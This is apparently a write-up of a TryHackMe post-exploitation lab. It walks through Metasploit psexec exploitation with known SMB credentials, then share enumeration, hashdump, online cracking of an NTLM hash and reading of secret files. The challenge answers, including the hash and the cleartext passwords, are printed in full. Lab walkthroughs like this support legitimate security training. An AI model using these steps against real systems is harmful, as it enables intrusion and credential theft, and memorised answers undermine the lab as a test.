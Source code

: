 # Try Hack Me Challenge POst-Exploitation
## Write Up

This Box Offers a lot of knowledge around meterpreter workabouts.

Now we are presented with multiple questions, which in order for us to solve them, we need to win control over a machine.

So:
  ```bash
  msfconsole
  use exploit/windows/smb/psexec
  SET LHOST Machineip
  SET SMBPass Password1
  SET SMBUser ballen
  exploit
  ```
  Now with the session, we have control to the Target Machine.

- Q: What is the computer name?
- A: ACME-TEST
- C: sysinfo

- Q: What is the target domain?
- A: FLASH
- C: ifconfig

- Q: What is the name of the share likely created by the user?
- A: speedster
- C: For this one we need to use another module:
  Leave the session open with sessions -i 2
  ```bash
     use windows/gather/enum_shares
     set Session 2
     exploit
  ```
  Go back to meterpreter using (sessions 2)

- Q: What is the NTLM hash of the jchambers user?
- A: 69596c7aa1e8daee17f8e78870e25a5c
- C: Hashdump

- Q: What is the cleartext password of the jchambers user? 
- A: Trustno1
- C: Copy the full hash and place it on hashes.com

- Q: Where is the "secrets.txt"  file located? (Full path of the file)
- A: c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
- C: search -f secrets.txt

- Q: What is the Twitter password revealed in the "secrets.txt" file?
- A: KDSvbsw3849!
- C: cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

- Q: Where is the "realsecret.txt" file located? (Full path of the file)
- A: c:\inetpub\wwwroot\realsecret.txt
- C: search -f realsecret.txt

- Q: What is the real secret?
- A: The Flash is the fastest man alive
- C: cat "c:\inetpub\wwwroot\realsecret.txt"
